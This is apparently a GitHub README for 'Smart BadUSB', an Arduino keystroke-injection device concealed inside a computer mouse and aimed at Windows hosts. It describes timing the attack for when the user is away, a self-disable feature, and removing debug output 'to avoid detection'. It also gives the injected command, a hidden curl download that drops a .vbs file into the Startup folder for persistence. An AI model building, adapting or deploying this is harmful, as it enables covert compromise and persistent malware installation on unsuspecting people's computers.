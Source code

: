 <h1>Smart BadUSB Project</h1>

<img src="https://github.com/BhawksGit/SmartBadUSB/blob/main/images/titleSlide.png?raw=true" alt="Smart BadUSB Title Slide">

<h2>Project Overview</h2>
<p>The Smart BadUSB is a modified USB device that mimics a keyboard but is embedded within a standard USB computer mouse. It executes a malicious payload when connected to a host computer without any obvious signs of its presence, making it more discreet than a traditional BadUSB device.</p>

<h2>Key Features</h2>
<ul>
    <li>Detection of the host operating system using HID protocol.</li>
    <li>Use of a photodiode to check for mouse LED activity to determine the best time to execute the payload.</li>
    <li>Self-destruct feature that disables the Arduino after successful payload execution.</li>
</ul>

<h2>Hardware Requirements</h2>
<ul>
    <li>Arduino Pro Micro</li>
    <li>USB 2.0 Expansion Module</li>
    <li>5mm Photodiode</li>
    <li>120 Ohm Resistor</li>
    <li>26 AWG Wire</li>
    <li>Micro USB Solderable Plug or a spliced phone cable</li>
    <li>Soldering Iron & Solder</li>
</ul>

<h2>Using the Program</h2>
<p>This program is designed to operate with specific pin settings and timing variables to effectively deploy a payload on Windows systems. Below are instructions on how to adjust key parameters and deploy the payload safely and effectively.</p>

<h3>Pin Configuration</h3>
<p>Do not change the pin configuration unless necessary, as they are set to match the hardware setup:</p>
<ul>
    <li><strong>photoTransistorPin</strong>: Analog pin A2, used for the phototransistor sensor.</li>
    <li><strong>VCCPin</strong>: Digital pin 15, used as VCC.</li>
    <li><strong>GNDPin</strong>: Digital pin 16, used as ground.</li>
</ul>

<h3>Timing Variables</h3>
<p>Adjust the following timing variables based on the environmental conditions and the Windows system you are targeting:</p>
<ul>
    <li><strong>interval</strong> (500 ms): Frequency at which the sensor checks are performed.</li>
    <li><strong>bootTime</strong> (5000 ms): Wait time after the device is powered on, allowing the PC to boot.</li>
    <li><strong>inactiveTime</strong> (5000 ms): Duration to consider the mouse inactive if no movement is detected.</li>
    <li><strong>lockToCoverScreenTime</strong> (65000 ms): Time to wait for the Windows lock screen to revert to the cover screen.</li>
    <li><strong>activeSensorCount</strong> (500): Count of sensor readings indicating active mouse usage before considering the mouse active.</li>
    <li><strong>activeSensorValue</strong> (1016): Sensor reading threshold to determine mouse activity. Adjust based on your phototransistor's sensitivity.</li>
</ul>

<h3>Payload Execution</h3>
<p>To modify the payload, alter the command within the <code>executePayload</code> function:</p>
<pre>
Keyboard.print("cmd /c curl -L URL -o \"%APPDATA%/Microsoft/Windows/Start Menu/Programs/Startup/Pagefile.vbs\" >nul 2>&1");
</pre>
<p>Replace the URL and file path as needed for your specific payload. Ensure that the commands are compatible with the Windows command line interface.</p>
<h3>Operational Flow</h3>
<p>Upon startup, the device checks if it has executed the payload previously through EEPROM state checking. If the payload has not been executed, it continues with the boot process, waiting for the PC to boot, and detecting mouse and system activity to determine the optimal time to deploy the payload.</p>

<h3>Compatibility</h3>
<p>Currently, this program is designed to work exclusively with Windows-based systems. It leverages specific Windows features, such as the "Run" dialog and keyboard shortcuts, to execute its payload effectively.</p>
<p>Support for Mac and Linux systems is under development, focusing on adapting to different system behaviors and command execution methods specific to these platforms.</p>

<h3>Resetting the Device</h3>
<p>If you need to reset the device and clear the EEPROM:</p>
<pre>
// To reset the EEPROM, short pin 8 to ground momentarily. This clears the flag and allows the payload to be executed again.
EEPROM.write(0, 0);
</pre>

<h3>Debugging</h3>
<p>For debugging purposes, use the serial output to monitor the status and operation of the device. Ensure to disable or remove serial debugging in the final deployment to avoid detection.</p>

<h2>Installation and Setup</h2>
<p>Refer to the Arduino IDE for uploading the provided <code>20231127_badusb_experimental.ino</code> script to the Arduino Pro Micro. Detailed wiring instructions and setup procedures can be found in the documentation linked below.</p>
<a href="https://github.com/BhawksGit/SmartBadUSB">GitHub Repository</a>

<p>Thank you for exploring the Smart BadUSB project. For more information or to contribute, please visit the GitHub repository linked above.</p>
